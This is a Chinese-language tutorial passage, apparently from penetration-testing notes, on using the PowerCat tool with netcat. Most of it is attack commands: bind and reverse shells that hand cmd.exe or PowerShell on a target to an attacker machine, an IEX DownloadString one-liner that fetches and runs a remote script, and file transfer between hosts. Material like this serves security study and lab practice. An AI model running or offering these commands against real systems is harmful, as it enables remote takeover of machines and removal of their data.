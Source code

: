 


#### 3.PowerCat
>可以说是nc的powershell版本

下载地址：https://github.com/besimorhino/powercat.git

###### 用法
```bash
# 导入模块
Import-Moudle .\powercat.ps1
```

既然说是nc的powershell版本，那就可以与nc配合连接:
1.通过nc正向连接powercat
```bash
# 目标机器用powercat监听
powercat -l -p 8080 cmd.exe -v
# 攻击机连接
nc 192.168.56.130 8080 -vv

#参数
-l    # 监听
-p    # 指定端口
-c    # 指定要启动进程的名字
-v    # 显示详情
```

2.通过nc反向连接powercat
```bash
# 攻击机器监听
nc -lvv -p 8888
# 目标机器用powercat连接我们
powercat -c 192.168.56.129 -p 8888 -v -e cmd.exe
```

通过powercat返回powershell
```bash
# 如果想返回powershell，就无法与nc进行交互
# 建立正向shell

# 在目标机器执行
IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.1/powercat.ps1");
powercat -l -p 9999 -v
# 在客户端
powercat -c 10.10.10.129 -p 9999 -v -ep  # -ep用于返回powershell

```

通过powercat传递文件
```bash
# 服务端准备接收文件
powercat -l -p 9999 -of test.txt -v    # -of 输出文件名
powercat -c 10.10.10.129 -p 9999 -i c:\1.txt -v  # -i 输入：可写文件名，也可直接写字符串

```
